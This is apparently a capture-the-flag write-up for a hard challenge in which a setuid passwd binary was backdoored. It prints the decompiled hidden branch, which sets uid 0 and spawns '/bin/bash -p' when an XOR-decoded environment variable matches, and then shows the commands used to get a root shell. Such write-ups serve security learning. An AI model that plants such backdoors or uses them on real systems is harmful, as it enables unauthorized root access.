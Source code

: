 # [HV23.15] pREVesc

## Introduction

Difficulty: Hard<br>
Author: coderion

We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!

## Solution

After loading linPEAS onto the machine and finding barely anything, I noticed a weird modification timestamp on the /usr/bin/passwd binary: <br>
`-rwsr-xr-x. 1 root root    132552 Dec 12 21:53  passwd`

So I downloaded it using `sftp` and started analyzing it in IDA.

Because I am a very skilled reverse-engineer I pressed the funny F5 button to get a nice decompile from it and the very first case stood out:

```c
case 'E':
    setuid(0);
    setgid(0);
    v7 = getenv("SALAMI");
    if ( !v7 )
    {
        puts("Why u givin' me no salami?!");
        exit(1);
    }
    *(_DWORD *)v134 = 68813853;
    v8 = 0LL;
    v136 = 7370101;
    *(_DWORD *)&v134[3] = 925444;
    si128 = _mm_load_si128((const __m128i *)&xmmword_141D0);
    do
    {
        v133[v8] = si128.m128i_i8[v8] ^ v134[v8];
        ++v8;
    }
    while ( v8 != 6 );
    v9 = 0LL;
    *(__m128i *)src = _mm_load_si128((const __m128i *)&xmmword_141E0);
    v138[0] = _mm_load_si128((const __m128i *)&xmmword_141F0);
    *(__m128i *)((char *)v138 + 11) = _mm_load_si128((const __m128i *)&xmmword_14200);
    do
    {
        s2[v9] = src[v9] ^ v133[(unsigned int)v9 % 6];
        ++v9;
    }
    while ( v9 != 43 );
    if ( strcmp(v7, s2) )
    {
        __printf_chk(1LL, "Never gonna give you up!\nYou'll never escape the rickroll.", v10);
        exit(1);
    }
    puts("Enjoy your salami!");
    system("/bin/bash -p");
    goto LABEL_35;
```

After also opening it up in BinaryNinja everything get's a bit clearer

```c
00005793                  case 0
00005793                      setuid(uid: 0)
0000579a                      setgid(gid: 0)
000057a6                      char* rax_16 = getenv(name: "SALAMI")
000057b1                      if (rax_16 == 0)
0000698d                          puts(str: "Why u givin' me no salami?!")
00006997                          exit(status: 1)
00006997                          noreturn
000057b7                      int32_t var_1ff = 0x41a041d
000057bf                      int64_t i = 0
000057e0                      var_1ff = 0xe1f04
000057e8                      int128_t var_1f8
000057e8                      __builtin_strcpy(dest: &var_1f8, src: "nevergonnagiveyouup")
00005802                      void var_205
00005802                      do
000057f7                          *(&var_205 + i) = *(&var_1ff + i) ^ *(&var_1f8 + i)
000057fa                          i = i + 1
000057fa                      while (i != 6)
0000580c                      int64_t i_1 = 0
00005820                      __builtin_memcpy(dest: &var_1d8, src: "\x1b\x15\x18\x11\x1e\x53\x5c\x4e\x1b\x16\x1a\x47\x0a\x0e\x19\x15\x18\x0b\x16\x4f\x0f\x0e\x00\x46\x04\x00\x18\x02\x05\x56\x05\x5c\x08\x30\x1a\x5d\x04\x58\x3b\x06\x35\x0a\x22", n: 0x2b)
0000586c                      do
00005860                          *(&var_108 + i_1) = *(&var_205 + sx.q(i_1.d u% 6)) ^ *(&var_1d8 + i_1)
00005864                          i_1 = i_1 + 1
00005864                      while (i_1 != 0x2b)
0000587b                      if (strcmp(rax_16, &var_108) != 0)
000058aa                          __printf_chk(flag: 1, format: "Never gonna give you up!\nYou'll…")
000058b4                          exit(status: 1)
000058b4                          noreturn
00005884                      puts(str: "Enjoy your salami!")
00005890                      system(line: "/bin/bash -p")
000057ae                      break
```

As expected a Rick Roll, but that is not all, let's inspect why we are getting RickRolled.

First we need to XOR `1d 04 1a 04 1f 0e` with `nevergonnagiveyouup`, which gives us `salami`, I guess the author really likes salami, we then use `salami` as an XOR key with the big byte array, which gives us `https://www.youtube.com/watch?v=dQw4w9WgXcQ`.

Fuck, rick rolled again - atleast that's what I thought at first, then I did the following:

```bash
export SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ
passwd -E
```

which gave me a root shell.

```
root@b75093f3-77ba-4e95-911f-5c51ad518ba8:/home/challenge# cat /root/flag.txt
HV23{3v1l_p455wd}
```

Flag: `HV23{3v1l_p455wd}`